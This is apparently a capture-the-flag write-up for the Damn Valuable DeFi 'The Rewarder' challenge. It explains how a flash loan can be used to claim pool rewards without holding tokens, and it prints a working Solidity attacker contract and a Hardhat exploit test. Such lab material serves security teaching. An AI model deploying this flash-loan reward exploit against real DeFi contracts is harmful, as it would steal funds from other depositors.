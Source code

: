 # The-Rewarder

## Introduction
The goal of this box is to get rewards out of the rewarder pool without depositing a single token.

## Code Breakdown
To do so, we'll have to look at the following contracts

***FlashLoanerPool.sol***.

Let's start by looking at the important functions.

**function flashLoan(uint256 amount) external nonRentrant**

Like any other flash loan function, it requires the sender to be a **contract** and the contract must have a function **receiveFlashLoan(uint256)**

Why does your attacker contract requires **receiveFlashLoan (uint256)**?
In the **flashLoan** function, it calls for it explicity.
```
msg.sender.functionCall(
    abi.encodeWithSignature(
        "receiveFlashLoan(uint256)",
        amount
    )
);
```

The next contract we'll be looking at is ***TheRewarderPool.sol***

Let's start by looking at the important functions.

***function deposit(uint256 amountToDeposit) external***

This is a simple function where users will deposit their tokens.
It'll call for a **distributeRewards()** whenever a deposit is made to check if it's time for reward distribution.

***function withdraw(uint256 amountToWithdraw) external***

This is a function where user can withdraw their token

***function distributeRewards() public returns (uint256)***

This function will check for distribute the reward evenly among the depositers according to contributions.

***function isNewRewardsRound() public view returns (bool)***

To check if a new round is issued every 5 days.


## Hints
There are 2 variables to consider - Ensure new round has started, Flashloan, deposit and steal rewards under the same contract.

Here's the thought process when you're crafting the attacker contract

1) Send a command to the block to fast forward time by 5 days
2) Flashloan the tokens, deposit them, withdraw and return the tokens within the same function.
3) Transfer the reward tokens to the attacker address


## Solutions
Following the hints above, your smart contract should look similar to this.
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../the-rewarder/TheRewarderPool.sol";
import "../the-rewarder/FlashLoanerPool.sol";
import "../DamnValuableToken.sol";
import "./RewardToken.sol";
import "./AccountingToken.sol";

/**
 * @title Attacker
 * @author BingleBangle-BH
 */

 contract Attacker {

    using Address for address payable;

    address payable private pool;

    FlashLoanerPool public flash_pool;
    TheRewarderPool public reward_pool;
    RewardToken public reward_token;
    DamnValuableToken public liquidity_token;

    constructor(address _flash_pool, address _reward_pool, address _reward_token, address _tokenAddress) {
        flash_pool = FlashLoanerPool(_flash_pool);
        reward_pool = TheRewarderPool(_reward_pool);
        reward_token = RewardToken(_reward_token);
        liquidity_token = DamnValuableToken(_tokenAddress);
    }

    function receiveFlashLoan(uint256 amount) public payable {
        liquidity_token.approve(address(reward_pool), amount);
        reward_pool.deposit(amount);
        reward_pool.withdraw(amount);
        liquidity_token.transfer(address(flash_pool), amount);
    }

    function stealRewards() external{
        uint256 dvtPoolBalance = liquidity_token.balanceOf(address(flash_pool));
        flash_pool.flashLoan(dvtPoolBalance);
        reward_token.transfer(msg.sender, reward_token.balanceOf(address(this)));
    }

 }
```

Here's the javascript
```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */

    // Advance time 5 days so that depositors can get rewards
    await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); 
    
    //Deploy attacker contract
    const attacker_pool = await ethers.getContractFactory('Attacker', attacker);
    this.attack = await attacker_pool.deploy(this.flashLoanPool.address, 
                                        this.rewarderPool.address,
                                        this.rewardToken.address, 
                                        this.liquidityToken.address);
    await this.attack.stealRewards();
    
    balance = await this.rewardToken.balanceOf(attacker.address);
    console.log(balance.toString());
});
```

## Recommendations
Do not use **block.timestamp** or **block.number** as an indicator to manage the number of rounds or time in your contract. Consider using external oracle service that provides time information such as Chainlink, TimezoneDB or WorldClockAPI.